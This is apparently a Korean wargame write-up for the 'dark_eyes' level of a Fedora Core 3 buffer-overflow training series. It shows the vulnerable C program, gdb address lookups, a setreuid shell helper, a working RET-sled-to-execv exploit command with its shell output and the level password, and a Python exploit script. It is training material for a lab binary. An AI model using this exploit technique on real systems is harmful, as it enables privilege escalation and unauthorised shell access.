 ```yaml
---
title: "[FC3]Level2. dark_eyes"
tags: [Wargame, Fedora Catle 3, Write-up]
article_header:
  type: cover
  image:
    src: 
---
```


## Keyword : RET Sleding

```c
/*
  The Lord of the BOF : The Fellowship of the BOF
  - dark_eyes
  - Local BOF on Fedora Core 3
  - hint : RET sleding
*/

int main(int argc, char *argv[])
{
  char buffer[256];
  char saved_sfp[4];

  if(argc < 2){
    printf("argv error\n");
    exit(0);
  }

  // save sfp
  memcpy(saved_sfp, buffer+264, 4);

  // overflow!!
  strcpy(buffer, argv[1]);

  // restore sfp
  memcpy(buffer+264, saved_sfp, 4);

  printf("%s\n", buffer);
}
```

Cannary 보호기법을 흉내낸 코드 같다. 

sfp에 담겨있는 값을 saved_sfp에 저장해두고 strcpy실행 이후 sfp를 다시 복원시킨다.

따라서 앞에 문제에서 사용했던 FakeEBP는 사용 불가능하다.



RET Sleding이라는 힌트가 있어서 EBP 아래부분을 살펴보았다.

<img src="http://eliez3r.synology.me/assets/img/writeup/fc3/2.dark_eyes/image-20180807162316255.png" width="500px">

EBP+28 부분에 NULL값이 존재하였다. 이는 매우 중요한 값으로 사용 가능하다.

strcpy함수로 NULL값을 넘겨주는 것은 불가능 하기 때문에, 스택상에 NULL값을 이용하면 된다.

execv()함수를 이용할 때 인자가 끝났다는 표시를 NULL값으로 확인하기 때문에 NULL 앞에 값은 execv의 인자로 사용하면 된다.



<img src="http://eliez3r.synology.me/assets/img/writeup/fc3/2.dark_eyes/image-20180807171320581.png" width="600px">

위 사진처럼 RET에 RET명령어를 3개를 넣고, execv()함수 주소를 넣으면 execv()+8부분을 인자값으로 실행한다.



그러면 0x83eff4부분에 무슨 값이 들어 있는지 확인해보자.

```sh
(gdb) x/x 0x83eff4
0x83eff4 <svcauthsw+712>: 0x0083ed3c
```

0x83ed3c라는 값이 들어있다.

그러면 이제 iron_grem문제처럼 심볼릭 링크를 이용하여 파일 이름을 83ed3c로 만들고 진행하면 될 것 같다.



페이로드 준비물

- ret가젯 주소
- execv함수 주소 

```sh
[iron_golem@Fedora_1stFloor ~]$ objdump -S dark_eyes | grep ret
 80482fe: c3                    ret
 80483a4: c3                    ret
 80483d9: c3                    ret
------ 생략 ------
```

dark_eyes 바이너리 안에 ret명령어 가젯들을 보여준다. 이중 하나 고르자.



```sh
(gdb) p execv
$1 = {<text variable, no debug info>} 0x7a55d0 <execv>
```

execv 함수도 gdb상에서 구해주자.



- ret가젯 주소 : 0x80482fe
- execv함수 주소 : 0x7a55d0



이제 권한 상승하여 쉘을 띄우는 프로그램을 만들자.

```c
[iron_golem@Fedora_1stFloor ~]$ cat tmp.c
#include<stdio.h>

int main(){
  setreuid(geteuid(), geteuid());
  system("/bin/sh");
  return 0;
}
```



```sh
[iron_golem@Fedora_1stFloor ~]$ gcc -o $(python -c 'print "\x3c\xed\x83"') tmp.c
```

ln -s 를 이용하여 하는 방법도 있지만, gcc로 컴파일 할때 파일 이름 자체를 바꾸는 방법을 사용해 봤다.

> ln -s 과정을 생략 할 수 있다.



```sh
[iron_golem@Fedora_1stFloor ~]$ ./dark_eyes `python -c 'print "A"*268+"\xfe\x82\x04\x08"*3+"\xd0\x55\x7a\x00"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�s������Uz
sh-3.00$ id
uid=502(dark_eyes) gid=501(iron_golem) groups=501(iron_golem) context=user_u:system_r:unconfined_t
sh-3.00$ my-pass
euid = 502
because of you
```

payload : `| buffer(264)+dummy(4) | ret Gadget*3 | execv() |` 



ex도 짜보자.

```python
import struct
import os

p32 = lambda x : struct.pack("<I", x)

target = "/home/iron_golem/dark_eyes"

ret = 0x80482fe
execv = 0x7a55d0

payload  = "A"*264  # buffer + dummy
payload += "B"*4  # SFP
payload += p32(ret)*3 # ret * 3
payload += p32(execv) # execv

os.execv(target, (target, payload[:-1]))
```



**dark_eyes / because of you**